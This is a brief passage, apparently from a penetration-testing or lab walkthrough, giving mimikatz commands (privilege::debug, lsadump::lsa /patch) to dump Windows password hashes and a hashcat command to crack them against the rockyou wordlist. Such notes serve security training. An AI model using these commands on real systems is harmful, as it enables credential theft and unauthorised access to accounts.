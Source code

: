 We should ensures that we are running mimikatz as an administrator; if we don't run mimikatz as an administrator, mimikatz will not run properly.
```
privilege::debug
```
To dump the hashes:
```
lsadump::lsa /patch
```


**Crack those hashes with hashcat﻿**
```
hashcat -m 1000 <hash> rockyou.txt
```



